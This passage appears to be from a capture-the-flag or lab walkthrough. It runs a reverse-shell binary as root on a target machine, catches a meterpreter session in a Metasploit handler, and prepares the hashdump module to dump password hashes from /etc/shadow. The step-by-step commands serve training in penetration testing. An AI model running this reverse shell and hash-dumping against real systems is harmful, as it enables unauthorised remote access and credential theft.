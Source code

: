 ```console
   ----   ---------------  --------  -----------
   LHOST  10.13.17.49      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.13.17.49:4444
```
Execute the payload. We need to get root access through `sudo su` in order to be able to read the `/etc/shadow` file.

Target Machine:
```console
$ sudo su
[sudo] password for murphy: 
root@ip-10-10-240-70:/dev/shm# chmod +x rev_shell.elf
root@ip-10-10-240-70:/dev/shm# ls -l
total 4
-rwxrwxr-x 1 murphy murphy 207 Mar  4 01:35 rev_shell.elf
root@ip-10-10-240-70:/dev/shm# ./rev_shell.elf
```
Attacker Machine:
```console
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information                             Connection
  --  ----  ----                   -----------                             ----------
  1         meterpreter x86/linux  murphy @ ip-10-10-240-70.eu-west-1.com  10.13.17.49:4444 -> 10.10.240.70:35302
                                   pute.internal                           (10.10.240.70)

```
Use `post/linux/gather/hashdump` module to dump the user's password hash.

Attacker Machine:
```console
msf6 exploit(multi/handler) > use post/linux/gather/hashdump
msf6 post(linux/gather/hashdump) > show options

Module options (post/linux/gather/hashdump):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(linux/gather/hashdump) > set session 1
session => 1
msf6 post(linux/gather/hashdump) > run
```